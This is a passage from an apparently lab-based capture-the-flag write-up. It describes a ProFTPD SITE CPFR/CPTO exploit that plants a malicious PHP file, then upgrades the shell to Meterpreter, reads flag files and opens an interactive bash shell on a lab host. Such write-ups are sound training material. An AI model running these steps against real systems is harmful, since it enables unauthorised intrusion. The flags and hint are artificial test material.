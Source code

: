 Despite error messages about cleanup, a command shell session was successfully established. The exploit works by copying a malicious PHP file to the web root via FTP's SITE CPFR/CPTO commands, then executing it through the web server.

#### Step 4: Shell Upgrade

Upgrading the basic shell to a more stable Meterpreter session:

```bash
sessions
sessions -u 1
sessions -i 2
```

**Session Upgrade Results:**
```
[*] Upgrading session ID: 1
[*] Sending stage (1017704 bytes) to 192.205.121.3
[*] Meterpreter session 2 opened (192.205.121.2:4433 -> 192.205.121.3:39560)
```

#### Step 5: Flag Retrieval

Navigating to the root directory and retrieving the flag:

```bash
meterpreter > ls /
meterpreter > cat /flag1.txt
```

**Flag 1 Content:**
```
FLAG1{0a83cebcc5ae418885cb63beda00d0a9}
Remember, the magical word is 'letmein'
```

🚩 **Flag 1**: `FLAG1{0a83cebcc5ae418885cb63beda00d0a9}`

The flag includes a hint about a "magical word" - this will be relevant for the next challenge.

---

### Challenge 2: Local Service Enumeration

**Objective**: "Further, a quick interaction with a local network service on target1.ine.local may reveal this flag. Use the hint given in the previous flag."

#### Step 1: Shell Interaction

Dropping from Meterpreter to a standard shell for better compatibility with system tools:

```bash
meterpreter > shell
/bin/bash -i
```

#### Step 2: Network Service Enumeration

Enumerating listening services on the target system:
